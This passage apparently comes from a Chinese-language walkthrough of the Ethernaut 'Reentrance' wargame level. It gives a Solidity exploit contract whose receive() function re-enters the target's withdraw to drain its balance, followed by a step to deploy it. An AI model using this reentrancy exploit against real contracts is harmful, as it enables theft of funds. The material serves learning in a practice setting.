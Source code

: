 直到目标合约没钱了；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;
import "./Ethernaut.sol";

contract Exp {
    Reentrance public re;
    // 给合约赋值，并且donate0.001
    constructor(address payable addr) public payable {
        re = Reentrance(addr);
        re.donate{value:0.001 ether}(address(this));
    }
    // 取款
    function withdraw() external {
        // 调用原withdraw
        re.withdraw(0.001 ether);
        // 此时钱在该合约里，所以需要给我们自己转账
        (bool res, ) = msg.sender.call{value:address(this).balance}("");
        require(res);
    }
    
    receive() external payable {
        re.withdraw(0.001 ether);
    }
}
```

部署合约，并捐赠：

![image-20250105232013719](./assets/image-20250105232013719.png)
